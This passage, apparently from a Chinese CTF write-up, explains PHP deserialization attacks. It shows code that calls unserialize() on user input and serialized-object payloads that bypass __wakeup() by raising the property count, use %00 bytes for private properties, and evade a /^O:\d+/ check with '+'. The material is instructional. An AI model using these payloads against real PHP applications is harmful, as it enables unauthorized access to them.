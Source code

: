 ```php
    }
}
?>

<?php
    include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);
    ?>
```

审计源码我们可以得出,当username=admin且password=100时得到flag,但是 weakup()魔术方法会把username重置为guest,因此我们需要绕过weakup()。

先构造payload生成序列化字符串

```php
<?php
class Name {

private $username='admin';
private $password=100;

}
$a=new Name;
echo serialize($a);

?>

/*输出：
O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
*/
```

最终传入的序列化字符串：

```php
O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

加上%00是因为username和password都是私有变量，变量中的类名前后会有空白符，而复制的时候会丢失且本题的php版本低于7.1

3、绕过部分正则
--------

preg\_match('/^O:\\d+/')匹配序列化字符串是否是对象字符串开头,这在曾经的CTF中也出过类似的考点

### 利用加号绕过

注意在url里传参时+要编码为%2B

```php
$a = 'O:4:"test":1:{s:1:"a";s:3:"abc";}'; //+号绕过 
$b = str_replace('O:4','O:+4', $a);
unserialize(match($b));
```
